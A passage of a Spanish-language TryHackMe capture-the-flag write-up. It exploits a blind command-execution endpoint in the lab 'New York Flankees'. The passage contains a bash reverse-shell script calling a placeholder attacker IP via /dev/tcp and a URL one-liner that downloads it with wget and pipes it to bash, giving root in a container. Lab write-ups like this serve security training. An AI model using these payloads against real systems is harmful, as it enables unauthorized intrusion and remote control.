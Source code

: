 Hacemos una prueba con el comando "***id***", vemos que devuelve un "*Ok*", pero también detectamos que no están permitidos la ejecución de todos los comandos, tampoco se nos muestra la información por la pantalla (solo el mensaje *"Ok"*), por lo que la respuesta es "*ciega*" y tendremos que averiguar alguna forma de saber si se está ejecuando en la máquina víctima:
![](../assets/img/new_york_flankees-tryhackme-writeup/6.png)

Levantamos un servidor HTTP con **Python** y probamos a descargar algo con el binario **wget**, donde se puede evidenciar que funciona, siendo una posible vía de explotación:
![](../assets/img/new_york_flankees-tryhackme-writeup/7.png)

Creamos un fichero **m3.sh** con una reverse shell:
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1
```
Ejecutamos el siguiente one-liner para conseguir descargar y ejecutar nuestra reverse shell sobre la máquina víctima:
```
http://10.10.155.195:8080/api/admin/exec?cmd=wget%20IP_ATACANTE/m3.sh%20%20-O%20/tmp/m3.sh|bash%20/tmp/m3.sh
```
Logramos acceso a la máquina como root, por el nombre de *hostname*, parece que está sobre un contenedor con **Docker**:
![](../assets/img/new_york_flankees-tryhackme-writeup/8.png)
